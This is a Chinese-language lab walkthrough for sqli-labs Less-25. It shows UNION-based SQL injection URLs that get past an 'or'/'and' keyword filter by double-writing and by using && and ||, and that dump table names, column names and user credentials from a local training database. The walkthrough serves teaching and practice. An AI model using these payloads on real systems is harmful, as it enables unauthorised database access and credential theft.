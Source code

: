 ```yaml
---
title: Less - 25
date: 2023-03-15T21:09:38Z
lastmod: 2023-03-15T21:24:45Z
---
```


# Less - 25

---

# 通关教程

---

## 1、判断闭合

---

​![image](assets/image-20230315211639-hdnlams.png)​

​![image](assets/image-20230315211654-zr0m8rv.png)​

​![image](assets/image-20230315211708-mpyqwj7.png)​

根据错误显示判断闭合类型为'--+，通过观察源码，发现过滤了or和and

​![image](assets/image-20230315211857-vkmf0sk.png)​

可以使用符号替换'OR'和'AND'，替换：如and可替换为&&，or可替换为||

---

## 2、查看当前数据库

---

```bash
http://192.168.225.132/sqli-labs/Less-25/?id=-1' union select 1,2,database()--+
```

​![image](assets/image-20230315212112-5vj1or0.png)​

---

## 3、查看security库下的所有表

---

```bash
http://192.168.225.132/sqli-labs/Less-25/?id=-1' union select 1,2,(select group_concat(table_name) from infoorrmation_schema.tables where table_schema='security')--+
```

​![image](assets/image-20230315212202-upeltds.png)​

---

## 4、查看users表下的所有字段

---

这里有一个问题，information_schema.tables里面也是有or的，这里我们使用双写绕过

```bash
http://192.168.225.132/sqli-labs/Less-25/?id=-1' union select 1,2,(select group_concat(column_name) from infoorrmation_schema.columns where table_name='users')--+
```

​![image](assets/image-20230315212250-ko8khtw.png)​

---

## 5、查看username,password字段的值

---

password里面也含有or，也采取双写绕过

```bash
http://192.168.225.132/sqli-labs/Less-25/?id=-1' union select 1,2,(select group_concat(username,passwoorrd) from security.users)--+
```

​![image](assets/image-20230315212432-s4xwk38.png)​

‍
